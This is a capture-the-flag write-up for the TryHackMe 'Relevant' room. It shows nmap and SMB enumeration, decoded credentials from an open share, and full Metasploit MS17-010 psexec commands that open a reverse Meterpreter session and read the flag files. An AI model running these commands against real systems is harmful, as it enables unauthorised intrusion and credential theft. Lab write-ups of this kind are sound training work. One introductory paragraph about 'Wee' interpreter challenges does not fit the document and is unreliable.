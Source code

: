 # Relevant

https://tryhackme.com/room/relevant

Penetration Testing Challenge
> Difficulty: Medium 

This is one of the [Wee](../Wee) challenges.

It's the third of 5 similar challenges revolving around breaking assertions
inside the interpreter source.

## Analysis

**nmap scan**

![nmap](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap.png)
![nmap1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap1.png)

hmmm

```
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
let's check port ***80*** first.

**gobuster**

let's start with listing [-L]

![gobuster](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/gobuster.png)

hmm, well nothing..
next is checking smbclient on port ***139,445***

**smbclient**

![smb](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb.png)

checking all shares, ***nt4wrksv*** was accessible with `--no-pass` and by listing directories ***passwords.txt*** was found

![smb1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb1.png)

cat passwords.txt ???
![smb2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb2.png)
which is base64 encode, base64 -d returns

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
further checking ***Bill*** isn't a valid user and ***Bob's*** password is wrong

![smb3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb3.png)

let's further enum smb

**enum smb**

let's start with nmap scripts

```
nmap --script "safe or smb-enum-*" -p 445 10.10.188.250
```

![step2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2.png)

woow, seems vulnerable to **CVE-2017-0143** ***smb-vuln-ms17-010***, let's check further for vulnerability with metasploit scanner "smb_ms17_010"

```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.188.250
run
```
![step2_1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_1.png)

**LIKELY VULNERABLE** lesss gooo for exploitation......



## Exploitation

***Analysis: Vulnerable to MS17-010***
**solution**

let's use metasploit smb "ms17_010_psexec" exploit

```
use exploit/windows/smb/ms17_010_psexec
set LHOST 10.18.37.12
set RHOSTS 10.10.188.250
run
```
![step2_2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_2.png)

...and we got the meterpreter session, let's just simply switch to cmd.exe

```
execute -f cmd.exe -i -H
whoami
```
![step2_3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_3.png)

for flags...

```
more C:\Users\Bob\Desktop\user.txt
more C:\Users\Administrator\Desktop\root.txt
```

***it's the END***

